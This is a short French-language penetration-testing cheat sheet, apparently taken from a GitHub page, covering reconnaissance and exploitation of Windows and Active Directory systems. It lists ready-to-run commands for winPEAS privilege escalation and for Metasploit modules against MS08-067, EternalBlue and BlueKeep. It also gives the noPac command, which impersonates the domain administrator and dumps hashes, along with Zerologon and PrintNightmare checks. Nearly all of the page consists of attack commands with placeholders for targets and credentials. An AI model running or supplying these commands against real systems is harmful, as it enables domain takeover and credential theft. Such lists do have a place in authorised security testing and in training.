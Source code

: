 # Reconnaissance

### Politique de mot de passe

_**Note :** nécessite une connexion locale sur une machine Windows_

```
net accounts
```

### Version de l'OS

```
cme <IP>
```

### Elévation de privilège locale

```
./winpeas.exe
```

### Vulnérabilités connues

#### MS08\_067

```
msf > use exploit/windows/smb/ms08_067_netapi
```

#### MS17-010 (Eternal Blue)

```
nmap -v -p445 --script smb-vuln-ms17-010.nse
msf > use auxiliary/scanner/smb/smb_ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
```

#### BlueKeep

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

#### Zerologon

```
python3 zerologon_tester.py <DC> <IP-DC>
```

#### Sam The Admin

```
python3 noPac.py <DOMAIN>/<USER>:'<PASSWORD>' -dc-ip <IP-DC> -dc-host <HOSTNAME-DC> --impersonate administrator -dump [-use-ldap]
```

#### PrintNightmare

```
python3 printnightmare.py -check '<DOMAIN>/<USER>:<PASSWORD>@<IP>
```
